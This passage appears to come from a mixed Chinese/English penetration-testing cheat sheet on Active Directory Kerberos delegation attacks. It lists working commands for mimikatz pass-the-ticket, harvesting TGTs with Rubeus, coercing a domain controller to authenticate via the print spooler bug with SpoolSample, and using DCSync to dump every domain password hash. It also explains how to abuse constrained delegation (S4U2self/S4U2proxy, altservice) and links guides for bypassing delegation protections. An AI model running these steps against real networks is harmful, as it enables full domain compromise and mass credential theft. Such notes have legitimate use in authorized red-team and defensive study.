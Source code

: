 ```bash
.\mimikatz.exe "kerberos::ptt kerberos::ptt [0;8c20d]-2-0-60810000-Administrator@krbtgt-HACKE.TESTLAB.kirbi" 

# rubeus Monitor logins and export new tickets
.\Rubeus.exe monitor /targetuser:<username> /interval:10 #Check every 10s for new TGTs
```

#### spool bug
+ 没有高权限用户访问IIS server时，可通过打印机bug进行认证获取高权限用户User B 的tgt
+ 如果获取到domain admins tgt， 可利用Dcsync 获取所有hash
+ [Spoolsample](https://github.com/leechristensen/SpoolSample.git)
+ [precompiled exe](https://github.com/jtmpu/PrecompiledBinaries)
+ [ired.team/domain compromise via dc print server and kerberos delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

```bash
# check if the target have spool
## if spoolss was not running, receive an error.
dir \\dc\pipe\spoolss

# spoolsample force authentication, make a print server login against any machine
.\SpoolSample.exe <printmachine> <unconstrinedmachine>

# rubeus monitor tgt
## tgt was base64 encoded.
.\Rubeus.exe monitor /targetuser:<username> /interval:10 /nowrap

# import ticket
rubeus.exe ppt /ticket:[b64 tgt]

# dcsync to obtain all the hashes
## mimikatz
mimikatz # lsadump::dcsync /domain:offense.local /user:spotless

## get hash
lsadump::dcsync /domain:offensive.local /all /csv
```

### Constrained Delegation
+ compromised a user account or computer(machine account/service account) that has kerberos constrained delegation enabled, it's possible to impersonate any domain user(including administrator) and authenticate to a service that the user account is trusted to delegate to.
+ 不同于非约束委派，约束委派对可通过委派访问的服务进行了限制，即约束委派的account `msds-allowedtodelegateto`中限定的服务（spn）
  > [from hacktricks constrained delegation], the spn(service name requested) is not being checked, only privilege; therefore, have access to cifs service, you can also access to HOST service using `/altservice` flag in rubeus.exe, HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights).
+ domain user account 设置spn后等同于 machine account（service account）
+ domain account useraccountcontrole flag `TRUSTED_TO_AUTH_FOR_DELEGATION`
+ this attack will be able to privesc and obtain all the hash(dcsync)
+ User is marked as `Account is sensitive and cannot be delegated`, not able to impersonate; [bypass guide](https://xz.aliyun.com/t/7454#toc-1)) , [bypass guide 2](https://xz.aliyun.com/t/9382#toc-18)
+ about S4U2self and S4U2proxy
  > S4U2serf, If a service account has a userAccountControl value containing TRUSTED_TO_AUTH_FOR_DELEGATION (T2A4D), then it can obtain a TGS for itself (the service) on behalf of any other user; 即，约束委派的账号（service account）可以代用户申请访问自己的服务（service account设置的spn）的ticket(tgs/st1)
  > S4U2proxy, A service account could obtain a TGS on behalf any user to the service set in msDS-AllowedToDelegateTo. To do so, it first need a TGS from that user to itself, but it can use S4U2self to obtain that TGS before requesting the other one. 即, 约束委派的账号（service account）代用户申请访问委派给自己的其他服务（msds-allowedtodelegateto spn）的ticket(tgs/st2)
+ the administrator/system privilege on the service machine is not necessary; password/hash is ok
